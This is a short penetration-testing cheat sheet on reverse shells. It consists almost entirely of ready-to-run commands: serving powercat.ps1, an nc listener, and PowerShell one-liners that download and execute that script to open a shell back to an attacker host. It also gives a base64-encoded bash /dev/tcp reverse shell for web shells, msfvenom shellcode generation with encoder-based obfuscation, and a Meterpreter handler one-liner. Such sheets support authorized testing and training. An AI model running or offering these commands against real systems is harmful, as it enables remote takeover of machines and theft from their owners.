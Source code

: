 # Reverse Shells

Serve Powercat.ps1

```bash
cd /usr/share/windows-resources && python3 -m http.server 80
```

Start listener

```
rlwrap nc -lvnp 4444
```

Run one of the commands:

{% tabs %}
{% tab title="Batch" %}
```batch
powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://<local_host>/powercat.ps1'); powercat -c <local_host> -p <local_port> -e powershell"
```
{% endtab %}

{% tab title="Powershell" %}
```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://<local_host>/powercat.ps1");powercat -c <local_host> -p <local_port> -e powershell 
```
{% endtab %}
{% endtabs %}

Base64 Encoded Bash - useful for web shells.

```bash
echo 'bash -i>& /dev/tcp/<ip>/4444 0>&1' | base64
```

Generating shell code

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f powershell -v sc
```

Generating obfuscated shell code with bad words:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

Start meterpreter listener one-liner

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST <LHOST>;set LPORT <LPORT>;run;"
```
